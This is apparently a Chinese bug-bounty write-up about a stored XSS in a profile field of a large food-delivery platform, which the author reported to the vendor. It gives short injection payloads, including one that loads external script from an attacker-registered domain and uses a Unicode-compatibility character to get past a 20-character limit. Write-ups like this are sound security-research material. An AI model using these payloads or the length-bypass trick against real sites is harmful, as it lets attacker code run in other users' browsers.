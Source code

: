 ```yaml
---
title: SRC实战 浅挖国内某外卖大厂储存型XSS
published: true
---
```

# [](#header-1)0、前言
这是本人一个多月前的一次对某大型外卖厂商的src经历  
由于这次经历非常的典型，而且本人也因此获得了比较丰厚的报酬  
因此把它记录下来  
  
出于对商业性渗透的保密原则，无法在此展示任何关于该厂商的图片内容  
  
# [](#header-1)1、前期资产搜集阶段
前期资产搜集阶段很艰难痛苦，使用不少资产搜索框架，均无法搜寻到大量有价值的资产信息  
(毕竟人家大厂的工程师也不是吃素的)  
  
就这样持续了几天，没有通杀的情况下，在看了不少站点+移动端资产后，终于发现了可疑xss注入点  
  
# [](#header-1)2、前期注入尝试阶段
在某子域下的某站点内的个人信息处，发现账号信息修改栏竟然没有经过过滤  
于是仔细钻研账号信息这个点，发现了以下规律  
  
1、账号信息处可以填任意utf-8码字符，但是返回的网页会转义()等字符，不转义"",'',/  
2、账号信息可作为公开信息展示在个人主页上，非常方便构造储存型xss  
3、账号信息输入处处于某标签的value中  
4、账号信息限制20长度字符，并且是后端硬校验，常规方法无法突破  

  
于是可乘之机就来了  
既然账号处是处于某标签的value中，那么就无需<>号了，直接先""绕过，尝试构造新的标签参数  
```js
  "><script src="
```
成功，并且没有任何的过滤，只是网页排版变得混乱了很多  
  
直接改返回包，添加函数，试试能否执行alert函数(由于括号被绕过，所以暂时用burp改返回包判断一下)  
```js
  "><script src="alert(1)
```
成功弹窗  
说明此处可以运行script  
  
由于长度限制在20，我们想要执行更多js代码，必须引入外部url里面的script，而不是括号绕过  

通过人脑极限压缩大法，我们最终将执行外部url的payload极限压缩到15个字符  
payload：
```js
  "<script src=//[填写域名]
```
该payload生成出来的网页简直是一坨稀饭，不过经过验证可以执行域名包含的js代码(不过该处填写的域名解析出的网站必须是跟随主站协议，比如像主站用https验证站就得用https)

该payload除开域名部分总长度为15，我们填写的域名+路径不能超过5字符  
当时就想到了短域名等方案，但都太长了  
然后想到干脆注册个域名算了，但又发现这种5字符长度的域名都太贵了  
  
~~经过我苦苦思考~~，终于发现了一个特别隐蔽的规则能利用：utf-8编码字母符号  

众所周知，utf-8字符集里有各种各样的字母符号，比如像：  
<table style="border:1px solid #2bbc8a;border-collapse: collapse" border="1">
  <tr>
    <td>字母符号</td>
    <td>编码</td>
  </tr>
  <tr>
    <td>™</td>
    <td>8482号</td>
  </tr>
  <tr>
    <td>℡</td>
    <td>8481号</td>
  </tr>
  <tr>
    <td>㎭</td>
    <td></td>
  </tr>
</table>
但绝大多数人不知道的是，在浏览器域名解析这些字母符号时，会自动按以下格式转换成英文字母：  
<table style="border:1px solid #2bbc8a;border-collapse: collapse" border="1">
  <tr>
    <td>字母符号</td>
    <td>编码</td>
    <td>对应英文字母</td>
  </tr>
  <tr>
    <td>™</td>
    <td>8482号</td>
    <td>tm</td>
  </tr>
  <tr>
    <td>℡</td>
    <td>8481号</td>
    <td>tel</td>
  </tr>
  <tr>
    <td>㎭</td>
    <td></td>
    <td>rad</td>
  </tr>
</table>
这些字母符号无论解析出来的英文有多长，都仅占用1个字符宽度

注册一个域名radq.cc，无论是使用㎭q.cc还是radq.cc，都能顺利C类解析到同一源ip

这样就好办了，不用花大价钱注册5长度域名，只需花小价钱注册一个包含特殊字符的5长度域名就可以了  
  
# [](#header-1)3、中期payload注入阶段
注册了radq.cc，在该域名下挂js脚本，顺利注入  
final payload:  
```js
  "<script src=//㎭q.cc
```
  
~~最后顺利注入，当然获取用户敏感信息是不太现实的，因为各种HTTP-ONLY的防御手段~~  
最后顺利注入，提交了漏洞信息，并且管理员处理的很快，喜提中危，不愧是大厂  
  
注意，本文最终payload并非真正payload，厂商自带waf，需要额外绕过一下，不在赘述  
本篇文章由leeya_bug(leeyange)自创，文章属亲身经历，禁止抄袭payload  
